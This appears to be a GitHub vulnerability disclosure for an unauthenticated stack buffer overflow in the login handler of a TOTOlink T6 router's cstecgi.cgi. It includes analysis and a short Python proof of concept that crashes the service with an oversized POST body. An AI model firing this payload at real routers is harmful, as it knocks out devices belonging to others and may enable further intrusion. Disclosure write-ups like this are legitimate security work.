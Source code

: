 # TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.

![gdb](gdb.png)